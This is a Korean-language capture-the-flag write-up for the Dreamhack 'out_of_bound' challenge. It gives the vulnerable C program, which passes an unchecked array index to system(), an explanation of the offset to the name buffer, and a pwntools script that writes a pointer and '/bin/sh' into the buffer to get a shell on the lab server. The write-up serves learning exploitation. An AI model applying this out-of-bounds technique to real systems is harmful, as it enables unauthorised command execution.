 ## out_of_bound
---

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

<br><br>

## Solution
---

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

<br>

name에 ```/bin/sh```를 넣고 name과 command 변수 간의 오프셋은 76으로 4로 나누면 19다.

즉, command에서 76바이트 뒤에 name이 존재하며, 인덱스 값으로는 command[19]에 name이 위치한다.

따라서 문자열을 넣어주고 인덱스를 19로 해주면 될 줄 알았는데.. 실패했다.

<br>

질문을 보니 system 함수의 인자는 ```const char* str```로 받는다.

```const char*```이므로 포인터니까 인자의 주소를 참조하게 된다.

인자로 주어진 값은 ```command[idx]```이며, command 변수에 할당된 값을 확인해보면 인자의 값들이 모두 주소로 되있는 것을 확인할 수 있다.

<br>

![image](https://user-images.githubusercontent.com/52172169/186662208-1acbfd71-c206-49a8-bc53-03edc30a4859.png)

<br>

그래서 공격을 성공하기 위해서는 주소값을 줘야한다고 한다.

어떤 주소를 줘야 하는가에 대해서는 생각해보면 우리는 입력을 name에 하게 되고, 인덱스 값으로 19만큼 주면 name의 위치가 나오므로 name에 저장된 주소에 저장된 값을 참조하게 될 것이다.

따라서 name+4의 주소를 주고 인덱스 값을 19로 준다면, name에는 name+4의 주소가 저장되어 있으므로 name+4에 있는 값을 불러올 것이다.

그러므로 name+4에는 /bin/sh 문자열을 주면 최종적으로 system('/bin/sh')가 호출되어 셸을 흭득할 것이다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',13710)

# name_addr = 0x0804a0ac # .bss

payload = p32(0x804a0b0) + b'/bin/sh'
p.sendafter(b'Admin name: ', payload)
p.sendafter(b'What do you want?: ', b'19')

p.interactive()
```

